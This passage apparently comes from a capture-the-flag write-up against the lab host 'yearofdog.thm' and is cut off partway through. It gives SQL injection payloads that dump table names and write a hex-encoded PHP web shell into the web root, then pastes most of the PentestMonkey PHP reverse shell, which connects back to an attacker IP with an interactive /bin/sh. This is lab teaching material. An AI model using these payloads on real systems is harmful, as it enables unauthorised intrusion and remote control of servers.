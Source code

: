 As we can see, the OS is displayed, so we could try to dump the database tables with `' union select 1, table_name FROM information_schema.tables-- -`:

![](Pasted%20image%2020240322202109.png)

The table we find is called `queue`, so we can imagine that it only stores the number or identifier we are in the queue. Trying by another way, we can inject a web shell like this `' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -`, where the last part is hex encoded (means `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>`) and it's the current web shell, where we could perform the following reverse shell. 

Now search on the browser for `yearofdog.thm/shell.php?cmd=ls`:

![](Pasted%20image%2020240322202526.png)

Now that we can perform commands, we can upload a reverse php shell like **PentestMonkey** one:
- Note that this one is compressed and without comments, but is just for efficiency reasons:

- Create the shell like: `vim sexyshell.php` and paste the following script into it:

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.74.136'; //CHANGE THIS
$port = 666; //CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
```